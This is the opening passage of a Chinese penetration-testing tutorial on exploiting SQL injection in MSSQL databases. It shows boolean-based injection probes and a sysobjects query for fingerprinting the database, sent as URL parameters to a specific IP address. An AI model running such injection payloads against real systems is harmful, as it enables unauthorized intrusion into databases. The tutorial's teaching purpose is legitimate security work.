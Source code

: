 > 原文链接: https://www.anquanke.com//post/id/248896 


# MSSQL数据库注入全方位利用


                                阅读量   
                                **24070**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/t014b262f5843f85675.jpg)](https://p1.ssl.qhimg.com/t014b262f5843f85675.jpg)



## 0x01 前言

在渗透测试过程中遇到了MSSQL数据库，市面上也有一些文章，不过大多数讲述的都是如何快速利用注入漏洞getshell的，对于MSSQL数据库的注入漏洞没有很详细地描述。在这里我查阅了很多资料，希望在渗透测试过程中遇到了MSSQL数据库能够相对友好地进行渗透测试，文章针对实战性教学，在概念描述方面有不懂的还请自行百度，谢谢大家～



## 0x02 注入前准备

### <a class="reference-link" name="1%E3%80%81%E7%A1%AE%E5%AE%9A%E6%B3%A8%E5%85%A5%E7%82%B9"></a>1、确定注入点

```
http://219.153.49.228:40574/new_list.asp?id=2 and 1=1
```

[![](https://p4.ssl.qhimg.com/t014e83f602b04a19d1.png)](https://p4.ssl.qhimg.com/t014e83f602b04a19d1.png)

```
http://219.153.49.228:40574/new_list.asp?id=2 and 1=2
```

[![](https://p0.ssl.qhimg.com/t01d16d8612cfb9ab51.png)](https://p0.ssl.qhimg.com/t01d16d8612cfb9ab51.png)

### <a class="reference-link" name="2%E3%80%81%E5%88%A4%E6%96%AD%E6%98%AF%E5%90%A6%E4%B8%BAmssql%E6%95%B0%E6%8D%AE%E5%BA%93"></a>2、判断是否为mssql数据库

sysobjects为mssql数据库中独有的数据表，此处页面返回正常即可表示为mssql数据库。

```
http://219.153.49.228:40574/new_list.asp?id=2 and (select count(*) from sysobjects)&gt;0
```

[![](https://p3.ssl.qhimg.com/t01b69ef8d50a8162d7.png)](https://p3.ssl.qhimg.com/t01b69ef8d50a8162d7.png)<br>
还可以通过MSSQL数据库中的延时函数进行判断，当语句执行成功，页面延时返回即表示为MSSQL数据库。
